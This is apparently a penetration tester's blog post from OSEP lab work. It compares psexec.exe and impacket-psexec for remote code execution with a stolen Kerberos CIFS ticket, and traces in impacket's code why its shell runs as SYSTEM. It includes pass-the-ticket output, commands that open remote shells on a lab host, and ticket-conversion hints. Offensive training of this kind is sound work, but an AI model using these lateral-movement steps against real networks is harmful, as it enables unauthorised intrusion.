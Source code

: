 ```yaml
---
layout: post
title:  "Looking into psexec.exe and impacket-psexec"
date:   2023-12-02 08:42:53 +1100
categories: Investigation
---
```

psexec.exe from the SysInternal suite and impacket-psexec from impacket can be used for remote code execution to windows hosts launched from cmd.exe or python respectively. I've been using them both in the OSEP labs and there's a few differences. 

With psexec.exe, you might run a pass-the-ticket attack so that you have a CIFS ticket to the target server. If the ticket you've stolen is for say `corp\administrator`, when you psexec to the target, the user context you get is `corp\administrator`. 
This might look like this 
```
PS C:\Tools> klist

Current LogonId is 0:0x11e854

Cached Tickets: (1)

#0>     Client: administrator @ CORP.COM
        Server: CIFS/FILES02.corp.com @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 11/30/2023 16:03:30 (local)
        End Time:   12/1/2023 2:03:30 (local)
        Renew Time: 12/7/2023 16:03:30 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:

PS C:\Tools> psexec.exe \\files02 cmd -accepteula

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
corp\administrator
```

If you use the same ticket with impacket-psexec (first you probably need to convert the kirbi from rubeus to a CCACHE and add a host entry for the target), it looks like this.
```
┌──(kali㉿kali)-[~]
└─$ echo $KRB5CCNAME
/home/kali/administrator.ccache

┌──(kali㉿kali)-[~]
└─$ impacket-psexec corp.com/administrator@files02.corp.com -k --no-pass
Impacket v0.11.0 - Copyright 2023 Fortra

[] Requesting shares on files02.corp.com.....
[] Found writable share ADMIN$
[] Uploading file bczmEmea.exe
[] Opening SVCManager on files02.corp.com.....
[] Creating service IVdT on files02.corp.com.....
[*] Starting service IVdT.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

So with the impacket version, you get a system shell while with psexec it respects the ticket and gives you a shell as the user. This can be frustrating, maybe I'd rather be the domain admin on files02 than be system. And sometimes with psexec.exe you'll encounter the below, ruling it out of your attack path.
```
PsExec v2.43 - Execute processes remotely Copyright (C) 2001-2023 Mark Russinovich Sysinternals - www.sysinternals.com 

Could not start PSEXESVC service on files02.corp.com: Access is denied.
```
While the same ticket with the impacket version will get you on. So you have an admin CIFS ticket for files02 but you can't operate as admin, annoying.

So I figured impacket-psexec was doing some privilege escalation from the domain user to system so I had a look to see if I could patch the privilege escalation to get my domain admin shell. Impackets pretty big and distributed and I spent some time tracing through the code to figure it out. I'll skip talking about the various hypotheses I had along the way about how it was escalating except to say I thought it was the remcomsvc for a while which is a binary blob in the impacket repo and it's own project that functions as the default reverse shell for impacket-psexec.

The impacket files are fairly distributed around the default install so following imports was tricky until I found this function in python.
```
┌──(kali㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ python3                                                                                                         
Python 3.11.6 (main, Oct  8 2023, 05:06:43) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import impacket.dcerpc.v5
>>> print(impacket.dcerpc.v5.__file__)
/usr/lib/python3/dist-packages/impacket/dcerpc/v5/__init__.py
>>> 
```

Before going through the code I had some idea that impacket-psexec created a service with SMB and executed that to get a shell back. That was about right. It authenticates with SMB and uses a protocol called DCERPC talking to the service control manager to create the service then starts it to get the reverse shell.

I eventually found the code that creates the service in scmr.py.
```
def hRCreateServiceW(dce, hSCManager, lpServiceName, lpDisplayName, dwDesiredAccess=SERVICE_ALL_ACCESS, dwServiceType=SERVICE_WIN32_OWN_PROCESS, dwStartType=SERVICE_AUTO_START, dwErrorControl=SERVICE_ERROR_IGNORE, lpBinaryPathName=NULL, lpLoadOrderGroup=NULL, lpdwTagId=NULL, lpDependencies=NULL, dwDependSize=0, lpServiceStartName=NULL, lpPassword=NULL, dwPwSize=0):
    createService = RCreateServiceW()
    createService['hSCManager'] = hSCManager
    createService['lpServiceName'] = checkNullString(lpServiceName)
    createService['lpDisplayName'] = checkNullString(lpDisplayName)
    createService['dwDesiredAccess'] = dwDesiredAccess
    createService['dwServiceType'] = dwServiceType
    createService['dwStartType'] = dwStartType
    createService['dwErrorControl'] = dwErrorControl
    createService['lpBinaryPathName'] = checkNullString(lpBinaryPathName)
    createService['lpLoadOrderGroup'] = checkNullString(lpLoadOrderGroup)
    createService['lpdwTagId'] = lpdwTagId
    # Strings MUST be NULL terminated for lpDependencies
    createService['lpDependencies'] = lpDependencies
    createService['dwDependSize'] = dwDependSize
    createService['lpServiceStartName'] = checkNullString(lpServiceStartName)
    createService['lpPassword'] = lpPassword
    createService['dwPwSize'] = dwPwSize
    return dce.request(createService)
```

I searched for a reference to hRCreateServiceW and found this MS document and the parameters seemed to line up https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-createservicew. The lpServiceStartName is what I was interested in because that's the user under which the service will run - maybe I could just update this and I'd be good. I got excited and made my patch so that I could pass a username at the command line and passed it all the way down to lpServiceStartName but I got an authentication error.

I looked around a bit more and noticed that what impacket-psexec was doing was passing null to lpServiceStartName and the documentation states.
```
If this parameter is NULL, CreateService uses the LocalSystem account.
```

So that's how impacket-psexec is working. It's using the CreateService API to create a service and just like I've encountered before, when creating a service you need a username and password. Just that it also has this function where passing null creates a system service. There wasn't a simple patch I could apply to prevent the change of context to system.

This still leaves some questions though. I'm interested in the service control manager and CreateService API authentication. You need a high privileged account to connect with impacket-psexec but I don't know exactly what rights need to be granted to allow it or where those rights are granted and what misconfigurations could exist. It also leaves the question of how psexec.exe is functioning, which does get you the user context you authenticated with. I believe it operates in a similar way particularly hinted at by the error message I saw earlier `Could not start PSEXESVC service on files02.corp.com: Access is denied.`.

